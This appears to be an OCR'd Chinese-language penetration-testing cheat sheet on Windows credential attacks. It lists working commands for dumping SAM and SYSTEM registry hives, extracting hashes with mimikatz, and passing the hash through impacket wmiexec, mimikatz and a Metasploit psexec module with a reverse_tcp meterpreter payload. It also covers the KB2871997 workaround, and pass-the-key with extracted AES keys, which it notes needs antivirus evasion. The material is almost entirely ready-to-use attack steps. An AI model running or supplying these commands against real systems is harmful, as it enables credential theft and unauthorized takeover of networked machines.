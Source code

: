 >
> 3gstudent 自动Dump-Clear-Text-Password-after-KB2871997-installed
>
> > https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed
>
> ### SAM-hash
>
> 管理权限：
>
> > reg save HKLM\SYSTEM Sys.hiv
> >
> > reg save HKLM\SAM Sam.hiv
>
> mimikatz:
>
> > lsadump::sam /sam:Sam.hiv /system:Sys.hiv
>
> ### pass the hash
>
> wmiexec 普通权限即可
>
> > https://github.com/maaaaz/impacket-examples-window																 
>
> > domain=TEST user=test1
> >
> > wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami"
>
> 需要管理权限
>
> > mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash" 
>
> > meterpreter > run post/windows/gather/hashdump
> >
> > meterpreter > background
>
> > msf > use exploit/windows/smb/psexec
> >
> > msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
> >
> > msf exploit(psexec) > set SMBuser Administrator
> >
> > msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
> >
> > msf exploit(psexec) > exploit
> >
> > meterpreter > shell
>
> 安装了 KB2871997 补丁或者系统版本大于等于 windows server 2012 时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以使用，schtasks 等执行命令无法用管理员权限。2.用 ptk，ptt。例外，打补丁后 administrato（SID-500） 依旧可以pth
>
> > https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/
>
> ### pass the key
>
> 需要免杀：
>
> > mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
> >
> > mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
> >